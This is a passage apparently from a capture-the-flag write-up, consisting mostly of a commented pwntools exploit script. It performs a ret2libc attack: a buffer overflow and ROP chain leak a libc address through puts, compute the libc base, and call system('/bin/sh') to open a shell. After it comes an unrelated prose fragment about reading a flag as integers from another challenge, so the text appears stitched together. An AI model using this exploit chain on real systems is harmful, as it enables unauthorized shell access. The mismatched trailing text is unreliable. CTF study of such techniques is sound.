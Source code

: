 ```python
io.recvuntil(b'\n')

pl = b'A'*offset
# pop our argument so we return to puts@plt and not __libc_start_main@got
pl += p64(pop_rdi)
# supply __libc_start_main@got as an argument to puts to print its libc address
pl += p64(exe.got['__libc_start_main'])
pl += p64(exe.plt['puts'])
# return to main to take a second input
pl += p64(exe.symbols['main'])

# send the payload
io.sendline(pl)

# receive the leaked libc address
res = io.recvuntil(b'\n')[:-1]
leak = u64(res.ljust(8, b'\x00'))

# calculate the libc base address
libc.address = leak - libc.sym['__libc_start_main']

# get the addresses of system() and a "/bin/sh" string in libc
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym['system']

# receive "Hello" again
io.recv()

pl2 = b'A'*offset
# pop our argument so we return to system() and not the "/bin/sh" string
pl2 += p64(pop_rdi)
# supply the "/bin/sh" string as an argument to system()
pl2 += p64(binsh)
# use a ret ropgadget to pad the stack so the "/bin/sh" string is in the right place for system()
pl2 += p64(ret)
# return to system()
pl2 += p64(system)

# send the second payload
io.sendline(pl2)

# change to interactive mode to use the shell
io.interactive()
```

Our goal is to read the flag written in the flag.txt file stored on the server BUT we have to keep in mind that both vulnerable inputs are casted as int, so in order not to make the program crash we can only pass in methods that return an integer.
So how can we get the flag if we can only work with integers?
The answer: by reading the decimal value of each character that composes the flag!
